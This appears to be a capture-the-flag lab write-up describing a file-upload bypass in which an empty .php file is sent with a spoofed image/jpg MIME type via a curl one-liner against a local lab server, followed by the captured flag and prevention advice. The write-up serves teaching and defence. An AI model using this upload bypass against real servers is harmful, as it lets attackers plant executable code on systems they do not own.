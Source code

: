 # MIME Sniffing Exploit

## Overview

This demonstrates a MIME sniffing exploit, which takes advantage of how some web servers handle file uploads. By disguising a malicious file, in this case as an image, an attacker can potentially execute arbitrary code on the server.

### Vulnerable File Upload

When navigating to the upload page (e.g., `http://127.0.0.1:8080/?page=upload`), we tried uploading different image formats and noticed that images with the extensions `.jpg` and `.jpeg` were accepted.

Inspecting the HTML, we see the following form snippet:

```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```

The form allows users to upload image files (e.g., `.jpg` and `.jpeg`), but there is no indication that the server verifies whether the uploaded file is truly an image based on its contents. This means an attacker could upload a file with a different type, such as a `.php` file containing malicious code. By changing the file's extension and telling the server that it is an image (e.g., by specifying the MIME type as `image/jpg`), the attacker can trick the system and bypass the restrictions that are meant to only allow image files. This can result in the server executing harmful code.

## Executing the Exploit

The following command can be used to upload a blank `.php` file, which could potentially contain a malicious script, while disguising it as an image:

```bash
touch malicious.php && curl -F "Upload=Upload" -F "uploaded=@malicious.php;type=image/jpg" http://127.0.0.1:8080/index.php?page=upload -s -o flag.txt && grep flag flag.txt && rm malicious.php flag.txt
```

### Breakdown of the Command:
- `curl -F "Upload=Upload"`: Uses `curl` to submit the form with the "Upload" button clicked.
- `-F "uploaded=@malicious.php;type=image/jpg"`: Uploads the `malicious.php` file while specifying the MIME type as `image/jpg` to trick the server into accepting it.
- `-s -o flag.txt`: Silently (`-s`) saves the server’s response to an output file (`-o flag.txt`).
- `grep flag flag.txt`: Extracts the flag from the response.
- `rm malicious.php flag.txt`: Cleans up by removing the malicious file and flag output.

### Flag Output

Running the above command yields the following flag:
```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## Prevention

1. **Strict MIME Type Validation**: Ensure the server checks the actual content of the uploaded file, not just the extension or MIME type specified by the client.
2. **Use a Whitelist**: Only allow specific file types, both by extension and MIME type. Reject any other types.
3. **Disable MIME Sniffing**: Add security headers like `X-Content-Type-Options: nosniff` to prevent browsers from trying to guess the MIME type.

## Resources

- [What Is MIME Sniffing?](https://www.keycdn.com/support/what-is-mime-sniffing)
